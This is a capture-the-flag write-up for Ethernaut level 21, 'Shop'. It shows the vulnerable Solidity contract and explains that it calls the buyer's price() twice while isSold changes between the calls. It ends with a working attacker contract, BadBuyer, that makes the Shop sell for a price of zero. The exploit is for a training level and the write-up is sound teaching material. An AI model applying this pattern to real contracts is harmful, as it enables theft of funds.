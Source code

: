 # [21. Shop](https://ethernaut.openzeppelin.com/level/0x3aCd4766f1769940cA010a907b3C8dEbCe0bd4aB)

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

interface Buyer {
  function price() external view returns (uint);
}

contract Shop {
  uint public price = 100;
  bool public isSold;

  function buy() public {
    Buyer _buyer = Buyer(msg.sender);

    if (_buyer.price() >= price && !isSold) {
      isSold = true;
      price = _buyer.price();
    }
  }
}
```

We had a similar puzzle back in the Elevator level: we need a function to return different things in a single transaction. The most barebones solution would be to check `gasLeft()` and return different results based on it, but here we have a cleaner solution.

```solidity
function buy() public {
  Buyer _buyer = Buyer(msg.sender);

  // during this call, isSold is false
  if (_buyer.price() >= price && !isSold) {
    // the state will change for isSold
    isSold = true;
    // during this call, isSold is true
    price = _buyer.price();
  }
}
```

As commented above, we can query the value of `isSold` and return a different result based on it. Our attacker contract will look like below, assuming we provide the Shop contract and the Buyer interface:

```solidity
contract BadBuyer is Buyer { 
  Shop target;
  constructor(address _target) {
    target = Shop(_target);
  }

  function price() external view override returns (uint) {
    return target.isSold() ? 0 : 100;
  }

  function pwn() public {
    target.buy();
  }
}
```
